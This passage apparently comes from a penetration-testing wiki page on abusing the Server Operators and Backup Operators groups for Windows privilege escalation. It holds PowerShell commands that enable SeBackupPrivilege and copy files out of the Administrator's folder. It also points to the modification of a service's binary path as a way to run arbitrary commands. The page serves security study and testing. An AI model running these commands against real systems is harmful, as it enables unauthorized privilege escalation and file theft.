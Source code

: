 This confirms that the Server Operators group has [SERVICE\_ALL\_ACCESS](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights) access right, which gives us full control over this service.\
You can abuse this service to [**make the service execute arbitrary commands**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#modify-service-binary-path) and escalate privileges.

## Backup Operators <a href="#backup-operators" id="backup-operators"></a>

As with `Server Operators` membership, we can **access the `DC01` file system** if we belong to `Backup Operators`.

This is because this group grants its **members** the [**`SeBackup`**](../windows-local-privilege-escalation/privilege-escalation-abusing-tokens/#sebackupprivilege-3.1.4) and [**`SeRestore`**](../windows-local-privilege-escalation/privilege-escalation-abusing-tokens/#serestoreprivilege-3.1.5) privileges. The **SeBackupPrivilege** allows us to **traverse any folder and list** the folder contents. This will let us **copy a file from a folder,** even if nothing else is giving you permissions. However, to abuse this permissions to copy a file the flag [**FILE\_FLAG\_BACKUP\_SEMANTICS**](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) \*\*\*\* must be used. Therefore, special tools are needed.

For this purpose you can use [**these scripts**](https://github.com/giuliano108/SeBackupPrivilege)**.**

Get **members** of the group:

```powershell
Get-NetGroupMember -Identity "Backup Operators" -Recurse
```

### **Local Attack**

```bash
# Import libraries
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Get-SeBackupPrivilege # ...or whoami /priv | findstr Backup SeBackupPrivilege is disabled

# Enable SeBackupPrivilege
Set-SeBackupPrivilege
Get-SeBackupPrivilege

# List Admin folder for example and steal a file
dir C:\Users\Administrator\
Copy-FileSeBackupPrivilege C:\Users\Administrator\\report.pdf c:\temp\x.pdf -Overwrite
```

### AD Attack

For instance, you can directly access the Domain Controller file system:

![](../../.gitbook/assets/a7.png)
